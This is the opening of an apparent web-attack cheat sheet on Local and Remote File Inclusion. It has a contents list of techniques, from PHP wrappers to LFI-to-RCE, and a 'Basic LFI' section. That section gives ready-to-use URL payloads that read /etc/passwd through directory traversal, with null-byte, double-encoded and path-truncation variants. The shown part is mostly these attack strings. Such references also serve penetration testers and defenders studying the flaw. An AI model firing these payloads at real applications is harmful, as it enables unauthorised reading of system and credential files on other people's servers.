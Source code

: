 # File Inclusion

> The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

> The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application

## Summary

* [Basic LFI](#basic-lfi)
* [Basic RFI](#basic-rfi)
* [LFI / RFI using wrappers](#lfi--rfi-using-wrappers)
  * [Wrapper php://filter](#wrapper-phpfilter)
  * [Wrapper zip://](#wrapper-zip)
  * [Wrapper data://](#wrapper-data)
  * [Wrapper expect://](#wrapper-expect)
  * [Wrapper input://](#wrapper-input)
  * [Wrapper phar://](#wrapper-phar)
* [LFI to RCE via /proc/*/fd](#lfi-to-rce-via-procfd)
* [LFI to RCE via /proc/self/environ](#lfi-to-rce-via-procselfenviron)
* [LFI to RCE via upload](#lfi-to-rce-via-upload)
* [LFI to RCE via upload (race)](#lfi-to-rce-via-upload-race)
* [LFI to RCE via phpinfo()](#lfi-to-rce-via-phpinfo)
* [LFI to RCE via controlled log file](#lfi-to-rce-via-controlled-log-file)
* [LFI to RCE via PHP sessions](#lfi-to-rce-via-php-sessions)

## Basic LFI

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```powershell
http://example.com/index.php?page=../../../etc/passwd
```

Null byte

```powershell
http://example.com/index.php?page=../../../etc/passwd%00
```

Double encoding

```powershell
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

Path truncation

```powershell
http://example.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=../../../../[…]../../../../../etc/passwd
```
